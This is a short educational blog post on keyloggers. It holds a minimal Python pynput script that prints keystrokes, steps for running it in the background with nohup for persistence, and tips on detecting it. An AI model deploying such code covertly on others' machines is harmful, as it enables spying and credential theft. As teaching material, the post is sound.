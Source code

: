 ```yaml
---
layout: ../../layouts/BlogPostLayout.astro
title: "Building A Keylogger With Pythone"
author: Zaid Mukaddam
pubDate: 2022-09-10
comments: true
---
```


# Building A Keylogger With Python

How long does it take to write a keylogger in Python?

7 lines (if you count jump lines)!

## What Is A Keylogger?

“Keylogger” is short for “Keystroke logger”, as it records what you type on the keyboard. Such scripts are not necessarily evil, but threat actors use them all the time.

The most common approach is to record user inputs and send data to a remote server (e.g., C2). It’s highly efficient and can reveal very sensitive data such as credentials, emails, visited URLS, and many other details.

Keyloggers are a massive threat to security and privacy.

Here, we’ll see a quick example with the keyboard, but it can also log clipboard, screens (some prefer the term “screenloggers”), instant messages, or internet activities.

It’s also possible to embed keyloggers directly in the hardware, for example, between the CPU and the mouse/keyboard. In this case, the analysis requires a physical access, but the detection rate by anti-malware solutions would be significantly lower, perhaps null.

However, even software-based keyloggers can be pretty hard to detect.

## Practical Example In Python

```python
# keylogger.py
from pynput import keyboard

def display_keys(key):
    print(str(key))

with keyboard.Listener(on_press=display_keys) as l:
    l.join()
```

It uses the pynput package. You can definitely improve the code by adding more information like timestamps or store the results in a text file. The pynput package allows monitoring the mouse as well.

However, with the basic example above, you can get the following:

>   Key.space <br/>
    ‘i’<br/>
    ’n’<br/>
    ‘g’<br/>
    Key.space<br/>
    ’l’<br/>
    ‘i’<br/>
    ‘k’<br/>
    ’e’<br/>

As long as it runs on the machine, it can collect inputs.

## How To Run The Code

Install the package and start the script:

```
pip install pynput
python3 keylogger.py &
```

The & is to run the script in the background. If you need more “persistence,” you can combine it with the nohup command to complete the process even if the user logs out from the terminal:

```
nohup python3 keylogger.py &
```

## How To Detect Keyloggers
Our script would be detected at the speed of light:

```
ps aux | grep python
```

In real-world conditions and if it’s a Linux machine, you can try automated tools such as *rkhunter* or *chkrootkit* to detect known rootkits and malware. These tools cannot spot advanced keyloggers written by experienced hackers to evade detection, but script kiddies often use popular kits.

## Keyloggers Can Bypass Security Measures

Such sneaky spywares will keep recording data even after some security measures. Updating credentials and hardening configurations is still necessary but not sufficient.

Password managers are convenient but many solutions only copy-paste data from the manager to the browser. Technically speaking, malware could still intercept the data by sniffing all the network traffic, for example.

In any case, password managers are not designed to block keyloggers.

## Wrap Up

No system is immune to keyloggers. You can’t assume there’s no keylogger on a machine, especially if it has been attacked.

Monitoring outgoing traffic, behaviors and processes can help detect these annoying snitches. However, some situations require destructive analysis, perhaps complete reformat and fresh install, so ensure you backup critical files regularly.

